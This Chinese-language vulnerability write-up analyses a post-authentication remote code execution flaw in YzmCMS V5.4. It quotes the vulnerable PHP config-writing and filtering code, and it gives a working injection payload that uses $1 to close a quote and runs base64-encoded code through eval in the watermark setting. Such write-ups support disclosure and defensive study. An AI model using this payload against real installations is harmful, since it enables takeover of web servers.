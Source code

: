 YzmCMS V5.4 后台getshell（二）
==============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','&lt;',$string);
        $string = str_replace('>','&gt;',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId29.png)

提交以后可以发现已经成功执行命令了

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSV5.4后台getshell(二)/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5
